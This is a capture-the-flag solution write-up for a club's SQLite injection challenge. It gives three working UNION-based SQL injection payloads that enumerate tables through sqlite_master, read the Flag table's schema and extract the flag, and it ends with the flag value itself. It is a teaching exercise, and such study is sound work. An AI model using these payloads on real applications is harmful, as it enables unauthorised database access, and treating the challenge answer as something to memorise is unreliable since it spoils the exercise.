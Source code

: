 # App|ETS Challenge 1: Injectin' for searchin'
**`Author:`** [MysticFragilist](https://github.com/MysticFragilist)
Date: 2022-09-06
On behalf of App|ETS mobile development club.

## Description
This challenge is a great way to learn that querying data from a SQLite internal database is not 
always a wise choice. 

## Solution
1. You can write to get the tables name from database 
```
%' UNION SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' --
```
The final request behind the scene will translate to look like this:
```
SELECT name FROM Course WHERE name LIKE '%' UNION SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' -- %';
```

2. Then, once you spot the table `Flag`, you then need the structure of the table, for which this command
is useful:
```
%' UNION SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='Flag' --
```

3. With the structure and the name of the column for the table Flag `flag`, you can show it's content 
and win this challenge this way:
```
%' UNION SELECT flag FROM Flag --
```

## References
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md

<!-- FLAG-c8ebd76d7c6e19b0aaae7df749c0272d -->

